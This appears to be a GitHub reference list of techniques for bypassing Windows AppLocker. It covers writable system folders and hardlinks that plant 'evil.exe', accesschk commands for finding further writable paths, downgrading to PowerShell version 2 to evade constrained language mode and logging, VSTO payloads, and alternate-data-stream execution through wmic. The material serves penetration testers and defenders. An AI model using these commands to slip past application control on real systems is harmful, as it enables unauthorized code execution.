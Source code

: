 This list contains generic methods of bypassing AppLocker.

## Placing files in writeable paths

The following folders are by default writable by normal users (depends on Windows version - This is from W10 1803)
```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

If you can place a file or folder into the path you become the owner of that object and you can change the ACL either in GUI or using ICALS. That includes adding Execute rights and more.
If deny execute is inherit you can either disable inheritance or you can use hardlink to a binary file in another folder using one of these commands:
```
fsutil create hardlink c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 

mklink /h c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 
```


You can check the for additional paths by running accesschk from sysinternals and supplying these commands:
```
accesschk -w -s -q -u Users "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Everyone "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Interactive "C:\Program Files" >> programfiles.txt

accesschk -w -s -q -u Users "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Everyone "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Interactive "C:\Program Files (x86)" >> programfilesx86.txt

accesschk -w -s -q -u Users "C:\Windows" >> windows.txt
accesschk -w -s -q -u Everyone "C:\Windows" >> windows.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Windows" >> windows.txt
accesschk -w -s -q -u Interactive "C:\Windows" >> windows.txt
```

    

   
## PowerShell version 2

```
Powershell -version 2
```
Bypasses Constrained language mode in PowerShell (and also logging). To fix this Powershell version 2 should be removed from Add/Remove Windows features. 
   
   
    
## Visual Studio Tools for Office - .VSTO files

```
evilfile.vsto
```

You need to build a solution using Visual Studio Tools for Office. 
User needs to confirm installation after executing. 

* https://bohops.com/2018/01/31/vsto-the-payload-installer-that-probably-defeats-your-application-whitelisting-rules/
      
     
     
## NTFS Alternate Data Streams (ADS)

AppLocker rules does not stop things that execute in ADS. More info on that here: https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/
This means you can pipe data to a stream and execute it using many of the different methods:
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Example on adding binary to a writable file under program files (using ADS):
```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"

wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'

```

    
